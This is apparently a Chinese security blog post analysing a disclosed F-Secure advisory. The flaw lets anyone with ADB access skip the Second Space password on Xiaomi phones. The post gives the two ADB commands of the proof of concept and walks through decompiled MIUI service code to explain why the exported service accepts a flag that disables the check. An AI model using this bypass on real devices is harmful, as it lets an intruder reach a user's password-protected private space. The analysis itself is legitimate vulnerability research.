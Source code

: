 ```yaml
---
layout: post
title:  "REDMI 5 Plus Second Space Password Bypass"
date:   2020-06-10 18:00:00 +520
tags: android_application_security
---
```


这个漏洞来自F-Secure实验室
- https://labs.f-secure.com/advisories/xiaomi-second-space

一句话描述就是：通过ADB命令启动一个Service就可以绕过小米Second Space的密码校验

我有一台Mix 2，刚好可以用于测试

Second Space的中文版本叫作`手机分身`

![](/assets/resources/DEC8A5C4B85CB1E7735AB3530F29BD12.jpg)

点击`开启手机分身`，会进入设置，两个密码，一个密码用于进入分身，一个密码用于回到主系统

这个漏洞的作用，就是让攻击者不需要密码，也可以进入分身，并且在主系统与分身之间自由切换

一共两条命令
```
➜ SECOND_USER=`adb shell pm list users | grep -o "{[0-9]*" | tr -d '{' | tail -n 1`
➜ adb shell am start-service --ez params_check_password False --ei params_target_user_id $SECOND_USER -a com.miui.xspace.TO_CHANGE_USER
```

第一条命令用于查询当前手机里的用户，`| grep -o "{[0-9]*" | tr -d '{' | tail -n 1`用于过滤出`11`这个字段
```
➜ adb shell pm list users
Users:
	UserInfo{0:机主:13} running
	UserInfo{11:security space:13} running
```

第二条命令可以说是最为关键，我们对其进行参数拆分
```
adb shell am start-service // 通过ADB命令启动Service
    --ez params_check_password False // boolean类型参数
    --ei params_target_user_id $SECOND_USER // int类型参数
    -a com.miui.xspace.TO_CHANGE_USER // 指定的Action
```

我们现在知道了这个Service响应的Action是`"com.miui.xspace.TO_CHANGE_USER"`

根据F-Secure的文章提示找到应用`com.miui.securitycore`

当然了，你想自己通过全局爆搜APK字符串也是可以的

这是实现Space切换的Service

![IMAGE](/assets/resources/EB405B9E46F294F27D622AED92854C57.jpg)

查看AndroidManifest文件的定义，有`<intent-filter>`默认导出
```
<service 
    android:name="com.miui.securityspace.service.SwitchUserService"
    android:permission="android.permission.INTERACT_ACROSS_USERS" 
    android:process="com.miui.securitycore.remote">
    <intent-filter>
        <action android:name="com.miui.xspace.TO_CHANGE_USER" />
    </intent-filter>
</service>
```

获取四个Intent字段后，调用`checkPasswordBeforeSwitch()`，`mTargetUserId`就是上文提到的`11`
```
public int onStartCommand(Intent intent, int arg7, int arg8) {
    this.mDelayTime = intent.getLongExtra("com.miui.xspace.preference_delay_time", 300);
    this.mFromType = intent.getStringExtra("com.miui.xspace.preference_from_type");
    this.mTargetUserId = intent.getIntExtra("params_target_user_id", -10000);
    this.mIsNeedcheckPassword = intent.getBooleanExtra("params_check_password", true);
    Log.d("SwitchUserService", "mTargetUserId: " + this.mTargetUserId);
    if(this.mTargetUserId != -10000) {
        this.checkPasswordBeforeSwitch(this.mTargetUserId);
    }

    this.stopSelf();
    return super.onStartCommand(intent, arg7, arg8);
}
```

`needCloseSdcardFs()`返回的固定值`0`，所以第一个`if`块不会进入，第二个`if`块有两个判断条件，`!mIsNeedcheckPassword`和`!isSecure()`，只需要满足其中一个就可以进入`if`块，而Poc中设置的`"params_check_password"`字段为`False`，所以这个`if`块就是我们关注的重点
```
private void checkPasswordBeforeSwitch(int mTargetUserId) {
    Intent intent;
    
    // private boolean needCloseSdcardFs(int arg2) { return 0; }
    if(this.needCloseSdcardFs(mTargetUserId)) {
        intent = new Intent(((Context)this), SdcardFsDialogActivity.class);
        intent.setFlags(0x10000000);
        this.startActivity(intent);
        return;
    }

    if(!this.mIsNeedcheckPassword || !SpaceManagerWrapper.getInstance().isSecure(mTargetUserId)) {
        int v1 = SpaceManagerWrapper.getInstance().switchUser(mTargetUserId);
        if(v1 == 0) {
            AnalyticsHelper.trackSwitchUser(mTargetUserId, this.mFromType);
        }
        else if(2 == v1) {
            ToastUtils.makeText(((Context)this), this.getResources().getString(0x7F09014B), 0).show(); // Can't switch between spaces during a call
        }
        else if(3 == v1) {
            ToastUtils.makeText(((Context)this), this.getResources().getString(0x7F09018B), 0).show(); // Switching to Second space is restricted by parental controls
        }
        else if(4 == v1) {
            ToastUtils.makeText(((Context)this), this.getResources().getString(0x7F0901CC), 0).show(); // Can't switch between spaces when Ultra battery saver is on
        }
    }
    else {
        intent = new Intent(((Context)this), SwitchUserConfirmActivity.class);
        intent.addFlags(0x10008000);
        intent.putExtra("preference_key_user_id", mTargetUserId);
        intent.putExtra("com.miui.xspace.preference_delay_time", this.mDelayTime);
        intent.putExtra("com.miui.xspace.preference_from_type", this.mFromType);
        this.startActivityAsUser(intent, new UserHandle(CrossUserUtils.getCurrentUserId()));
    }
}
```

这个`if`块的第一句代码就是调用`switchUser()`，一共有三个判断
```
public int switchUser(int mTargetUserId) {
    if(DeviceUtil.isPhoneCalling(this.mContext)) {
        Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when calling.");
        return 2;
    }

    if(MiuiSettings$Secure.isGreenKidActive(this.mContext.getContentResolver())) {
        Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when green kid active.");
        return 3;
    }

    if(MiuiSettings$System.isSuperSaveModeOpen(this.mContext, 0)) {
        Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when super power active.");
        return 4;
    }

    if(this.mSpaceManager.switchUser(mTargetUserId)) {
        return 0;
    }

    return 1;
}
```

第一个判断，如果当前有电话打进来或者正在接电话，不进行Space切换
```
CALL_STATE_STATE_IDLE = 0;
CALL_STATE_STATE_RUNNING = 1;
CALL_STATE_STATE_OFFHOOK = 2;

public static boolean isPhoneCalling(Context context) {
    boolean result = true;
    int callState = context.getSystemService("phone").getCallState();
    if(callState != 1 && callState != 2) {
        result = false;
    }

    return result;
}
```

第二个判断和第三个判断，有一点点棘手，因为它调用到了Framework代码，小米在这一层多了相当多的定制
```
import android.provider.MiuiSettings$Secure;
import android.provider.MiuiSettings$System;

if(MiuiSettings$Secure.isGreenKidActive(this.mContext.getContentResolver())) {
    Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when green kid active.");
    return 3;
}

if(MiuiSettings$System.isSuperSaveModeOpen(this.mContext, 0)) {
    Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when super power active.");
    return 4;
}
```

解析boot-framework.vdex，会获得三个cdex，再解析三个cdex文件为dex文件即可

![IMAGE](/assets/resources/C6FE99F25A99F5D480D2D8DF6827060C.jpg)

JEB分析一波，可以直接找到两个方法，正常情况下这两个方法都返回`false`，可以不用过多关注

![IMAGE](/assets/resources/6D15B242DBB968006CBF5027ACFA08A1.jpg)

最后就是切换Space啦
```
if(this.mSpaceManager.switchUser(mTargetUserId)) {
    return 0;
}
```

这后面又会调用到Framework的代码，咱们就不进行展开了

有生之年一定要认识一下F-Secure的大佬们，给大佬们一人带一双温州皮鞋穿穿
